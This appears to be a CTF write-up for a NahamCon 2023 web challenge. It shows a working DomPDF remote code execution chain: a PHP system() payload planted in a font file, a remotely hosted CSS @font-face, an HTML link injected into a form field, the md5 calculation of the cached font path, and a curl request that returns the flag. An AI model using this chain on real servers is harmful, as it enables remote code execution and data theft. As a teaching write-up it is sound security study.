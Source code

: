 These sites have a very detailed writeup on the vulnerability. I will summarize the steps I used. 

1. create a exploit font file by opening a font file and inserting a RCE code into it. 
```php
    <?php system("cat /flag.txt"); ?>
```

2. Create a exploit CSS that refers to the font file in an accessible location. Store the CSS in an accessible location as well.
```css
    @font-face {
        font-family:'expfont';
        src:url('https://raw.githubusercontent.com/meashiri/ctf-writeups/main/files/exploit_font.php');
        font-weight:'normal';
        font-style:'normal';
    }
```
Note the name of the font you used. You will need it later. 

3. Inject a reference to the CSS in the `organization name` field of the form on the challenge web server
![](2023-06-18-21-31-14.png)

4. Press submit and verify that the PDF was successfully generated. The URL would be similar to the following: 
`http://challenge.nahamcon.com:30331/quote.php?organisation=%3Clink+rel%3Dstylesheet+href%3D%27https%3A%2F%2Fraw.githubusercontent.com%2Fmeashiri%2Fctf-writeups%2Fmain%2Ffiles%2Fexploit.css%27%3E&email=email%40email.com&small=1&medium=2&large=4`

5. Now, the font is cached in the DomPDF folder on the server and can perform RCE if we invoke it directly. 

6. The path of the cached file is `<webroot>/dompdf/lib/fonts/<font name>_normal_<md5 hash>.php`

7. The md5 is the md5 of the URL of the font. It can be calculated as: 
```bash
    % echo -n "https://raw.githubusercontent.com/meashiri/ctf-writeups/main/files/exploit_font.php" | md5
    f00d4e3ed0b0844e00eda7061397debb
```
8. Invoking the cached font on the web server will give us the font file with the results of the remote command. 
```bash
    % curl http://challenge.nahamcon.com:30331/dompdf/lib/fonts/expfont_normal_f00d4e3ed0b0844e00eda7061397debb.php -o -      

    � dum1�cmap
            `�,glyf5sc��head�Q6�6hhea��($hmtxD
    loca
    Tmaxp\ nameD�|8dum2�
                        -��-����
    :83#5:08��_<�
                @�8�&۽
    :8L��

    :D

    6				s
    flag{a4d52beabcfdeb6ba79fc08709bb5508}
```
or from the browser: